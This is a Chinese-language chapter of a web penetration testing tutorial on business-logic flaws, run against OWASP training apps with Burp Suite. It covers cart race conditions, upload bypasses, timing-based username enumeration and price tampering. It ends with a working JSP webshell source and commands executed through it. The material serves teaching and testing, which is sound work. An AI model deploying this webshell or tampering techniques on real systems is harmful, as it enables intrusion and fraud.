

# 第七章：评估业务逻辑

本章涵盖了**业务逻辑测试**的基础知识，包括解释该领域中常见的一些测试。Web 渗透测试涉及对业务逻辑的关键评估，以确定应用程序设计如何在应用程序功能的顺序步骤中执行完整性检查，尤其是在涉及顺序操作时，我们将学习如何使用 Burp Suite 执行这些测试。

在本章中，我们将介绍以下练习：

+   测试业务逻辑数据验证

+   无限制文件上传—绕过弱验证

+   执行过程时序攻击

+   测试绕过工作流

+   上传恶意文件—多重格式文件

# 技术要求

为了完成本章中的练习，您需要以下内容：

+   OWASP **破损的 Web 应用程序**（**BWA**）

+   OWASP Mutillidae 链接

+   OWASP WebGoat 链接

+   OWASP **Damn Vulnerable Web Application**（**DVWA**）链接

+   Burp Proxy Community 或 Professional ([`portswigger.net/burp/`](https://portswigger.net/burp/))

+   使用 Firefox 浏览器，配合 FoxyProxy 插件或 Burp Suite 浏览器

# 测试业务逻辑数据验证

由于缺少服务器端检查，特别是在购物车结账等一系列事件中，可能会发生业务逻辑数据验证错误。如果存在设计缺陷，例如线程问题，这些缺陷可能允许攻击者在购买前修改或更改购物车中的内容或价格，从而降低支付价格。

## 准备工作

使用 **OWASP WebGoat** 应用程序和 Burp，我们将利用业务逻辑设计缺陷，以非常低的价格购买许多大宗商品。

## 如何进行……

1.  确保 **owaspbwa** 虚拟机正在运行。从虚拟机的初始登录页面选择 **OWASP WebGoat** 应用程序。登录页面将配置为特定于您的机器的 IP 地址：


图 7.1 – 虚拟机登录页面

1.  点击 **OWASP WebGoat** 链接后，系统将提示输入登录凭证。使用以下凭证—用户名：**guest**；密码：**guest**。

1.  认证后，点击 **Start WebGoat** 按钮以访问应用程序练习：


图 7.2 – 启动 WebGoat 应用程序

1.  请注意，WebGoat 应用程序在 Firefox 中配合 FoxyProxy 使用，设置为将流量发送到 Burp Suite，而不是使用 Burp Suite 浏览器时似乎效果更好。点击左侧菜单中的 **Concurrency** | **购物车并发缺陷**：


图 7.3 – 购物车并发缺陷

该练习解释了购物车设计中的线程问题，这将允许我们以更低的价格购买商品。让我们来利用这个设计缺陷！

1.  将 **1** 添加到 **Sony - Vaio with Intel Centrino** 项目的 **Quantity** 框中。点击 **Update** **Cart** 按钮：


图 7.4 – 将一台 Sony Vaio 添加到购物车

1.  切换到 Burp Suite 的 **Proxy** | **HTTP history** 标签。找到购物车请求，右键点击，并选择 **Send to Repeater**：


图 7.5 – 发送到 Repeater

1.  在 Burp Suite 的 **Repeater** 标签中，将 **QTY3** 参数从 **1** 改为 **10**：


图 7.6 – 将数量增加到三

1.  保持在 Burp Suite 的 **Repeater** 标签页中，在请求窗格中右键点击并选择 **Request in browser** | **In current browser session**：


图 7.7 – 在当前浏览器会话中查看请求

1.  弹出窗口显示已修改的请求。点击 **Copy** 按钮：


图 7.8 – 复制链接

1.  使用包含购物车的同一 Firefox 浏览器，打开一个新标签页并粘贴前一步复制到剪贴板的 URL：


图 7.9 – 将链接粘贴到新的浏览器标签中

1.  按下 *Enter* 键以查看请求重新提交，并且修改后的数量为 **10**：


图 7.10 – 查看更新后的数量

切换到包含原购物车（数量为 **1**）的原始标签页。点击 **Purchase** 按钮：


图 7.11 – 在原标签页上购买该商品

1.  在下一个屏幕上，在点击 **Confirm** 按钮之前，切换到第二个标签页并再次更新购物车，这次使用我们新的数量 **10**，并点击 **Update Cart**：


图 7.12 – 在第二个标签页更新购物车

1.  返回第一个标签页，点击 **Confirm** 按钮：


图 7.13 – 在第一个标签页确认购买

请注意，我们能够以 1 台 Sony Vaio 笔记本的价格购买 10 台！


图 7.14 – 购物车中的所有商品都以较低的价格购买

## 工作原理...

线程安全问题可能会产生意外的结果。对于许多编程语言，开发者了解如何声明变量和方法为线程安全至关重要。没有隔离的线程，例如本教程中展示的购物车内容，可能导致用户在商品上获得意外的折扣。

# 不受限制的文件上传 – 绕过弱验证

许多应用程序允许上传文件以满足不同需求。服务器端的业务逻辑必须包含对可接受文件的检查；这被称为**白名单**。如果这些检查薄弱或仅关注文件属性的一个方面（例如，仅检查文件扩展名），攻击者可以利用这些漏洞上传可能在服务器上执行的意外文件类型。

## 准备开始

使用 DVWA 应用程序和 Burp，我们将利用文件上传页面中的业务逻辑设计缺陷。

## 如何操作...

1.  确保**owaspbwa**虚拟机正在运行。选择虚拟机初始登陆页面上的**DVWA**。登陆页面将配置为特定于你机器的 IP 地址。

1.  在登录页面，使用以下凭证—用户名：**user**；密码：**user**。

1.  从左侧菜单中选择**DVWA 安全性**选项。将默认设置**低**更改为**中**，然后点击**提交**：


图 7.15 – 设置安全性为中等

1.  从左侧菜单中选择**上传**页面：


图 7.16 – 进入上传页面

1.  注意页面指示用户仅上传图片。如果我们尝试上传除 JPG 图片以外的其他类型文件，页面左上角会显示错误信息：


图 7.17 – 仅允许上传图片

1.  在本地计算机上创建一个除了 JPG 以外的任意类型文件。例如，创建一个名为**malicious_spreadsheet.xlsx**的 Microsoft Excel 文件。为了本教程目的，文件内容不需要填写。

1.  切换到 Burp Suite 的**代理** | **拦截**标签页。点击**拦截开启**按钮开启拦截器。

1.  返回 Firefox，使用**浏览**按钮找到你系统中的**malicious_spreadsheet.xlsx**文件，并点击**上传**按钮：


图 7.18 – 尝试上传 Excel 表格

1.  在 Burp Suite 的**代理** | **拦截**标签页中暂停请求后，将**Content-Type**值从**application/vnd.openxmlformats-officedocument.spreadsheetml.sheet**更改为**image/jpeg**。

这是原始版本：


图 7.19 – 原始 Content-Type 值

这是修改后的版本：


图 7.20 – 修改后的 Content-Type 值

1.  点击**转发**按钮。现在，通过点击切换按钮将拦截器关闭为**拦截关闭**。

1.  注意文件已成功上传！我们成功绕过了数据验证检查，并上传了非图片文件：


图 7.21 – 表格成功上传

## 它是如何工作的...

由于服务器端检查较弱，我们可以轻松绕过仅限图像的限制，上传我们选择的文件类型。应用程序代码只检查与**image/jpeg**匹配的内容类型，而这可以通过像 Burp 这样的拦截代理轻松修改。开发人员需要同时在应用程序代码中对白名单进行内容类型和文件扩展名的检查，以防止此类漏洞的发生。

# 执行过程计时攻击

通过监控应用程序完成任务所需的时间，攻击者可以收集或推测应用程序的编码方式。例如，使用有效用户名的登录过程响应速度比使用无效用户名的登录过程要快。这种响应时间的延迟泄露了与系统过程相关的信息。攻击者可以利用响应时间进行账户枚举，并根据响应的时间确定有效的用户名。

## 准备中

对于此操作，您需要从**wfuzz**获取**common_pass.txt**字典，下载地址如下：

[`github.com/xmendez/wfuzz`](https://github.com/xmendez/wfuzz)

这是路径：

**字典** | **其他** | **common_pass.txt**

使用 OWASP Mutillidae II，我们将确定应用程序是否基于强制登录的响应时间泄露信息。

确保 Burp Suite 正在运行，并且确保**owaspbwa**虚拟机正在运行，且 Burp Suite 已在用于查看**owaspbwa**应用程序的 Firefox 浏览器中配置。

## 如何操作...

1.  从**owaspbwa**登录页面，点击 OWASP Mutillidae II 应用程序的链接。

1.  打开 Firefox 浏览器，访问 OWASP Mutillidae II 的主页（网址：**http://<your_VM_assigned_IP_address>/mutillidae/**）。

1.  访问登录页面，使用用户名**ed**和密码**pentest**登录。

1.  切换到 Burp Suite 的**代理** | **HTTP 历史**标签，找到刚才执行的登录操作，右键点击并选择**发送** **到 Intruder**：


图 7.22 – 将登录的 POST 请求发送到 Repeater

1.  进入**Intruder** | **Positions**标签，使用右侧的**清除 §**按钮清除所有有效载荷标记：


图 7.23 – 清除任何建议的位置

1.  如下图所示，选择用户名字段并点击**添加 §**按钮，将有效载荷标记添加到该字段周围。同时，将有效密码替换为无效密码，例如**xx**：


图 7.24 – 在用户名值周围添加替换标记

1.  同时，移除**PHPSESSID**令牌。删除该令牌中的值（即等号后面的内容），并将其留空。此步骤非常重要，因为如果你不小心将此令牌保留在请求中，应用程序会认为你已经登录，从而无法看到时间差异：


图 7.25 – 移除 PHPSESSID cookie 值

1.  转到**Intruder** | **Payloads**标签。在**Payload Options [Simple list]**部分，我们将使用来自**wfuzz**的词汇表（包含常见密码：**wfuzz/wordlists/others/common_pass.txt**）添加一些无效值：


图 7.26 – 加载词汇表

1.  滚动到页面底部并取消勾选**有效载荷**编码部分的复选框：


图 7.27 – 取消勾选有效载荷编码部分的复选框

1.  点击**开始攻击**按钮。攻击结果表将会出现。等待攻击完成。在攻击结果表中，选择**列**并勾选**收到响应**。勾选**响应完成**以将这些列添加到攻击结果表中：


图 7.28 – 向攻击结果表中添加两列额外的列

1.  分析提供的结果。根据 OWASP（[`owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/04-Test_for_Process_Timing`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/04-Test_for_Process_Timing)），执行此测试的步骤包括提供一个有效的用户名（即**ed**）和一个无效的密码，并查看从服务器返回的响应时间。然后，再次使用无效的用户名和无效的密码执行测试。你需要观察当服务器遇到有效用户名与无效用户名时，响应时间是否有差异（更快或更慢）。

从我们的测试结果来看，最快的响应是当服务器提供一个有效的用户名和无效的密码时：


图 7.29 – 分析结果

## 它是如何工作的……

信息泄露可能发生在处理错误信息时，或者通过处理比有效代码路径花费更长时间的无效代码路径。开发者必须确保业务逻辑不会向攻击者泄露此类线索。

## 还有更多……

我们可以使用一个名为**Timeinator**的 Burp Suite 扩展，它可以帮助我们识别处理时间攻击，但通过更多的请求来获取更好的样本量。

1.  从**BApp Store**子标签页下载 Burp Suite 扩展。点击**安装**按钮：


图 7.30 – 安装 Timeinator 扩展

1.  右键单击我们在 **Intruder** 中使用的请求，并将其发送到 **Timeinator** 插件：


图 7.31 – 将 Intruder 请求发送到 Timeinator

1.  在 **Timeinator** 中，在 **username** 周围添加替代标记。在文本区域中输入三个名称（**tom**、**xx**、**ed**），这些名称将替代为替代位置：


图 7.32 – 添加替代标记和有效载荷

1.  点击顶部的 **开始攻击**。完成后，切换到 **Timeinator** 的 **结果** 标签，查看生成的热图。注意，使用无效密码的有效用户名的标准偏差明显大于其他使用无效用户名的登录尝试。由于样本量更大以及额外的数学计算，您可能会对您的过程定时攻击结果更加有信心：


图 7.33 – 开始攻击并分析结果

# 流程绕过测试

购物车与支付网关的交互必须由 Web 应用程序渗透测试人员进行测试，以确保工作流不能按错误顺序执行。除非首先在服务器端验证购物车内容，否则不应进行付款。如果缺少此检查，攻击者可以在实际购买前更改价格、数量或两者。

## 准备工作

使用 OWASP WebGoat 应用程序和 Burp，我们将利用一个业务逻辑设计缺陷，该缺陷在购买前没有进行服务器端验证。

## 如何操作...

1.  确保 **owaspbwa** 虚拟机正在运行。从虚拟机的初始登录页面选择 OWASP WebGoat 应用程序。该登录页面将配置为与您计算机特定的 IP 地址相对应。

1.  点击 **OWASP WebGoat** 链接后，系统会提示您输入登录凭证。使用以下凭证——用户名：**guest**；密码：**guest**。

1.  经过身份验证后，点击 **开始 WebGoat** 按钮以访问应用程序练习。

1.  点击左侧菜单中的 **AJAX 安全性** | **不安全的客户端存储**。您将看到一个购物车：


图 7.34 – 不安全的客户端存储课程

1.  切换到 Burp Suite 的 **代理** | **HTTP 历史** 标签，点击 **过滤器** 按钮，并确保您的 **按 MIME 类型过滤** 部分包含 **脚本**。如果 **脚本** 未勾选，请务必勾选：


图 7.35 – 在流量历史中包含脚本

1.  回到使用 WebGoat 的 Firefox 浏览器，并为**惠普 - Pavilion 笔记本电脑，配备 Intel®** **Centrino™**项目指定数量为**2**：


图 7.36 – 更新购物车，添加两台惠普笔记本电脑

1.  切换回 Burp Suite 的**代理** | **HTTP 历史记录**选项卡，并注意与您更改的数量相关联的 JavaScript（***.js）**文件。注意名为**clientSideValidation.js**的脚本。确保状态码为**200**，而不是**304**（未修改）。只有**200**状态码将显示脚本的源代码：


图 7.37 – clientSideValidation.js 脚本的源代码

1.  选择**clientSideValidation.js**文件，并在**响应**选项卡中查看其源代码。

1.  请注意，优惠券代码硬编码在 JavaScript 文件中。但是，如果按原样使用，它们将无法工作：


图 7.38 – 硬编码的优惠券代码

1.  继续查看源代码 - 注意 JavaScript 文件中找到了**解密**函数。我们可以通过此函数测试其中一个优惠券代码。让我们尝试在 Firefox 浏览器中进行此测试：


图 7.39 – 解密 JavaScript 函数

1.  在浏览器中，打开开发者工具（*F12*）并转到**控制台**选项卡。粘贴以下命令到控制台（查找**>>**提示）：

    ```
    decrypt('emph');
    ```

1.  您可以使用此命令调用数组中声明的任何优惠券代码上的**解密**函数：


图 7.40 – 调用优惠券代码上的解密函数

1.  按下*Enter*键后，您将看到优惠码解密为**GOLD**一词：



图 7.41 – 显示优惠券代码

1.  在**输入您的优惠码**框中输入**GOLD**一词。请注意，金额现在大大减少。接下来，点击**购买**按钮：


图 7.42 – 在文本框中放置 GOLD 以应用于购买

1.  我们收到关于第 1 阶段完成的确认。现在让我们尝试免费获得购买：


图 7.43 – 第 1 阶段已完成

1.  切换到 Burp Suite 的**代理** | **拦截**选项卡，并使用**拦截开启**按钮将拦截器打开。

1.  返回 Firefox 并按下 **Purchase**（购买）按钮。请求暂停时，修改 $1,599.99 的金额为 $0.00。查找 **GRANDTOT** 参数以帮助您找到需要更改的总金额。使用右侧的 **Inspector**（检查器）部分，帮助您通过高亮显示 **GRANDTOT=** 后的值来修改金额，如下截图所示。当您准备好应用更改时，点击 **Apply changes**（应用更改）：


图 7.44 – 修改总金额

1.  点击 **Forward** 按钮。现在，通过点击切换按钮将拦截器关闭，确保 **Intercept is off**。

1.  返回浏览器并点击 **Purchase**（购买）。您应该会收到一条恭喜消息。请注意，总金额现在为 $0.00：


图 7.45 – 恭喜消息

## 它是如何工作的...

由于在收费之前缺乏对优惠券代码和总金额的服务器端检查，我们可以绕过已分配的价格并设置我们自己的价格。

# 上传恶意文件 – polyglots

**Polyglot** 是一个定义为使用多种语言的术语。如果我们将这一概念应用于黑客攻击，它意味着通过使用不同的语言作为执行点来创建攻击向量。例如，攻击者可以构造有效的图片并嵌入 JavaScript。JavaScript 负载通常被放置在图片的评论部分。一旦图片被浏览器加载，XSS 内容可能会执行，具体取决于 Web 服务器声明的内容类型的严格程度以及浏览器对内容类型的解析。在本节中，我们将使用 polyglot 上传伪装成图片的 Webshell。

## 准备工作

使用 OWASP WebGoat 文件上传功能，我们将编写一个小的 **Java Server Pages** (**JSP**) Webshell 并将其伪装成图片上传到应用程序。

我们将使用一些流行的源代码来创建 JSP Webshell，并将其保存在名为 **poly.jsp** 的文件中。

确保 **owaspbwa** 虚拟机正在运行。从虚拟机的初始登录页面选择 OWASP WebGoat 应用程序。登录页面将配置为特定于您机器的 IP 地址。

## 如何操作...

1.  点击 **OWASP WebGoat** 链接后，系统会提示您输入登录凭据。请使用以下凭据：用户名：**guest**；密码：**guest**。

1.  身份验证后，点击 **Start WebGoat**（开始 WebGoat）按钮以访问应用程序的练习。

1.  从左侧菜单中点击 **Malicious Execution** | **Malicious File Execution**。您将看到一个文件上传功能页面。说明中写明只允许上传图片：


图 7.46 – 恶意文件执行课程

1.  使用记事本或你喜欢的文本编辑器，创建一个名为 **poly.jsp** 的新文件，并在文件中编写以下代码：

    ```
    <%@ page import="java.util.*,java.io.*"%>
     <%
     if (request.getParameter("cmd") != null) {
         out.println("Webshell cmd: " + request.getParameter("cmd") 
         + "<br />");
         Process p = Runtime.getRuntime().exec(request.
         getParameter("cmd"));
         OutputStream os = p.getOutputStream();
         InputStream in = p.getInputStream();
         DataInputStream dis = new DataInputStream(in);
         String disr = dis.readLine();
         while ( disr != null ) {
               out.println(disr);
               disr = dis.readLine();
         }
     }
     %>
    ```

1.  返回到 **恶意文件执行** 页面，浏览到你在本地系统上创建的 **poly.jsp** 文件，然后点击 **开始** **上传** 按钮：


图 7.47 – 上传你的 Webshell

每个上传的位置可以通过右键点击页面中显示的损坏图像（即 **你当前的图像**），然后选择 **复制图像链接** 来确定。接着，打开一个新标签页，将剪贴板中的链接粘贴到新标签页中。

1.  **poly.jsp** 是一个可以在该 Web 服务器上执行的 JSP 文件。你可以通过打开一个新标签页并导航到以下 URL 来玩弄你全新的 Webshell：**http://<YOUR_VM_IP>/WebGoat/uploads/poly.jsp?cmd=ls**。

注意 **ls** 命令如何列出目录内容。让我们利用这个 Webshell 帮助我们解决实验：


图 7.48 – 打开新标签页执行你的 Webshell

1.  要解决这个实验，我们需要按照指示在提供的路径 (**/var/lib/tomcat6/webapps/WebGoat/mfe_target/**) 中创建一个 **guest.txt** 文件：


图 7.49 – 解决实验的指示

1.  返回到你的 Webshell 标签页，并为 **cmd** 参数输入以下命令：

    ```
    mkdir%20-p%20/var/lib/tomcat6/webapps/WebGoat/mfe_
    target;touch%20/var/lib/tomcat6/webapps/WebGoat/mfe_target/
    guest.txt
    ```

1.  返回到课程的第一个标签页并重新加载页面。成功消息应该会出现：


图 7.50 – 祝贺消息

## 它是如何工作的...

由于文件上传漏洞，我们可以上传像 polyglot 这样的恶意文件，而不被 Web 服务器检测到。许多网站允许上传图像，因此开发者必须确保这些图像内部不含有恶意负载。对此类攻击的防护可以采用魔数检查或特殊的代理服务器筛查所有上传的文件与反病毒引擎的匹配等方式。

## 还有更多...

要了解更多关于 polyglot 的信息，请参考以下 *PortSwigger* 博客：

[`portswigger.net/blog/bypassing-csp-using-polyglot-jpegs`](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)
